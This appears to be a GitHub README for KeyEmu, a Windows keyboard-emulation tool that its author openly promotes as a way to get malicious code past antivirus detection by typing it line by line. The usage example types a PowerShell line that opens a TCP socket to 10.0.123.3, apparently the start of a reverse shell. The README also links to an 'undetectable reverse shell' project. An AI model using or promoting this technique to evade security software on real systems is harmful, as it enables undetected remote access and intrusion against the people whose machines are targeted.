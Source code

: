 		  
		      ___           ___                       ___           ___           ___     
		     /|  |         /\__\                     /\__\         /\  \         /\  \    
		    |:|  |        /:/ _/_         ___       /:/ _/_       |::\  \        \:\  \   
		    |:|  |       /:/ /\__\       /|  |     /:/ /\__\      |:|:\  \        \:\  \  
		  __|:|  |      /:/ /:/ _/_     |:|  |    /:/ /:/ _/_   __|:|\:\  \   ___  \:\  \ 
		 /\ |:|__|____ /:/_/:/ /\__\    |:|  |   /:/_/:/ /\__\ /::::|_\:\__\ /\  \  \:\__\
		 \:\/:::::/__/ \:\/:/ /:/  /  __|:|__|   \:\/:/ /:/  / \:\~~\  \/__/ \:\  \ /:/  /
		  \::/~~/~      \::/_/:/  /  /::::\  \    \::/_/:/  /   \:\  \        \:\  /:/  / 
		   \:\~~\        \:\/:/  /   ~~~~\:\  \    \:\/:/  /     \:\  \        \:\/:/  /  
		    \:\__\        \::/  /         \:\__\    \::/  /       \:\__\        \::/  /   
		     \/__/         \/__/           \/__/     \/__/         \/__/         \/__/

# KeyEmu🐫
## 🐫What is KeyEmu (KeyboardEmulator)?

KeyEmu🐫 is name after Keyboard Emulator that emulate the keyboard input to the machine as a programmatic way by just a simple command and no external library are needed. This is the modified version of this original [reddit post](https://www.reddit.com/r/PowerShell/comments/3qk9mc/keyboard_keypress_script/) on 2016 by LandOfTheLostPass. It build focus on ✌🏾 main features such as:

 - Emulate the **normal text** typing input as a string
 - Emulate the **press of any special** or (combination of special key in next release)

**Excuse me the code is not that good yet, I just rush to get it fix and work in the way I wanted 🐱‍🏍

## 🐫Why is KeyEmu?

I can only come up with two of these and the second is the main purpose haha (evil):
- The use case of this program could be for **automating simple task** by simply loop 🥨the command using simple program to do same task over time
- **Bypass any security detection** while executing malicious 🦠code by executing code line by line rather then the hole file that one which is difficult to detect by most anti virus out there.

## 🐫How to use KeyEmu?

No big deal super, like cooking rice (because I'm Asian) 😂

 1. Download the latest release of [keyemu.exe](https://github.com/panhavad/keyboard-emulator/releases) 
 2. Open CMD
 3. Change directory to the directory that you keep keyemu.exe
 4. Run either of this command to use either of the feature

	**✨To emulate the whole string**
	```
    keyemu -text "$socket = new-object System.Net.Sockets.TcpClient('10.0.123.3', 17576);"
    ```
    NOTE: When you run a complex command like this, be aware of escape character in command line. User ""double quote"" to escape another "double quote".😁
    
    **✨To emulate the RETURN / ENTER key press**
	```
    keyemu -key RETURN
    ```

## 🐫Does it really work?
Hay get a small prove that it really work. 😪 This is the script execute line by line using the command from keyemu that written in batch file then convert to exe. Result of anti virus undetectable. *Wanna see the full script of this shell being bind without malware detection?* [Come here](https://github.com/panhavad/undetectable-reverse-shell-win10)😉

![enter image description here](https://i.postimg.cc/ZKVV19mf/Untitled-Project.gif)

## 🐫Last Message

*All of those feature and command are practically useful or work better when you use this in batch file and convert to exe. And please use it at your own risk.*

